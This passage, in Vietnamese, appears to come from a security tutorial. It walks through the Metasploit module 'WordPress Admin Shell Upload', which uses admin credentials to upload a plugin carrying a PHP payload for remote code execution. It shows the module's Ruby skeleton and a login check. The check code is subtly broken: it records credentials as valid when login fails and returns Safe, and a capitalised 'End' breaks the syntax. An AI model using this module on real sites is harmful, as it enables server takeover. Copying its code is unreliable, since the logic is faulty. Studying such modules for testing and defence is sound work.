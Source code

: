 ## 7. Phân tích Module có sẵn

Phần này sẽ trình bày phân tích và xây dựng một module thực hiện thực thi mã từ xa trên nền tảng Wordpress với quyền admin. Module này sẽ tạo ra một plugin cho Wordpress, đóng gói payload vào đó và tải nó lên một máy chủ chạy dịch vụ Wordpress để thực thi mã từ xa.
Về cơ bản, MSF đã hỗ trợ người sử dụng các chức năng cơ bản để thao tác với Wordpress như đăng nhập, lưu trữ phiên đăng nhập và các thao tác cơ bản. 

Người sử dụng chỉ cần kế thừa các chức năng này và thực hiện mã khai thác.

Đầu tiên chương trình cần kế thừa hai module là:
*Msf::Exploit::FileDropper* : Giúp kế thừa sử dụng các thao tác với file.
*Msf::Exploit::Remote::HTTP::Wordpress* : Kế thừa sử dụng thao tác với wordpress. Thực hiện khai báo các module để sử dụng các thông tin cơ bản của module:

```ruby 
require 'rex/zip'

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::FileDropper
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
      info,
      'Name'            => 'WordPress Admin Shell Upload',
      'Description'     => %q{
          This module will generate a plugin, pack the payload into it
          and upload it to a server running WordPress providing valid
          admin credentials are used.
        },
      'License'         => MSF_LICENSE,
      'Author'          =>
        ['rastating' # Metasploit module
        ],
      'DisclosureDate'  => 'Feb 21 2015',
      'Platform'        => 'php',
      'Arch'            => ARCH_PHP,
      'Targets'         => [['WordPress', {}]],
      'DefaultTarget'   => 0
    )) 
    register_options(
      [
        OptString.new('USERNAME', [true, 'The WordPress username to authenticate with']),
        OptString.new('PASSWORD', [true, 'The WordPress password to authenticate with'])
      ])
end
```
Sử dụng đoạn code sau để thực hiện việc đăng nhập vào Wordpress với tài khoản và mật khẩu:

```ruby
def check
    cookie = wordpress_login(username, password)
    if cookie.nil?
    	store_valid_credential(user: username, private: password, proof: cookie)
     	return CheckCode::Safe
    end

    CheckCode::Appears
  End
def username
    datastore['USERNAME']
  end
```